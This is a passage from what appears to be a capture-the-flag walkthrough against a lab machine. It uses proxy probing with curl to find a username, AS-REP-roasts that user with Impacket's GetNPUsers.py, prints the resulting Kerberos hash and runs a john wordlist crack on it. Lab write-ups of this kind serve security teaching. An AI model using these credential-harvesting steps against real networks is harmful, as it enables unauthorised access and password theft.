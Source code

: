 
    oxdf@parrot$ curl -s --proxy 10.10.10.224:3128 http://10.10.10.224 > 10.10.10.224.md
    oxdf@parrot$ firefox 10.10.10.224.md



The resulting page has some useful info:

![](/img/image-20210606110713223.png)

The cache administrator's email is `j.nakazawa@realcorp.htb`. The
hostname at the bottom is `srv01.realcorp.htb`.

If I do the exact same thing, but request `http://127.0.0.1` instead of
`http://10.10.10.224`, there's actually a different error:



    oxdf@parrot$ curl -s --proxy 10.10.10.224:3128 http://127.0.0.1 > 127.0.0.1.md
    oxdf@parrot$ firefox 127.0.0.1.md



![](/img/image-20210606110849958.png)

The first time it said the request was unauthorized, but this time it
says the connection failed. This implies that the requirement for
authentication may not apply to localhost.

### AS-REP-ROAST

With the username, I can try to get a hash off of Kerberos using
`GetNPUsers.py`. This will return a hash if the
`UF_DONT_REQUIRE_PREAUTH` flag is set for the user. It works:



    oxdf@parrot$ GetNPUsers.py -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa | tee j.nakazawa.hash
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

    [*] Getting TGT for j.nakazawa
    $krb5asrep$18$j.nakazawa@REALCORP.HTB:7587a44ff02ac18b6d395220a463a359$108aeca04223f28b985c5e9e48314e4de555620574e3af19f201cb17968e973a8fb4e69a38681159d2b032f4807680f8d68547eb2407a56c5a5293fe633769e80d20ec7c88e1b5958676645adbf2f08c15e472053db9e65785815084bce1ddc76ef43bbda02cc685411378d82f72fda5abc6c51ca33019da4cbf27b62713f85d67429743f3abb622264766c4772fe1f9ed38433f4e1eef729905dde9419d4bbe2291c5a79765c7198564bae8745e26dcd99fae17539669b87722b7cd8b06d067589ecd5d364a0af81d7f97d7ef22bdf73e2a66e71c03559ebdb9



This type of hash [isn't implemented in hashcat
yet](https://github.com/hashcat/hashcat/issues/2603), but `john` will
give it a run:



    oxdf@parrot$ john j.nakazawa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:40 DONE (2021-06-06 15:19) 0g/s 352773p/s 352773c/s 352773C/s        1..*7¡Vamos!
    Session completed
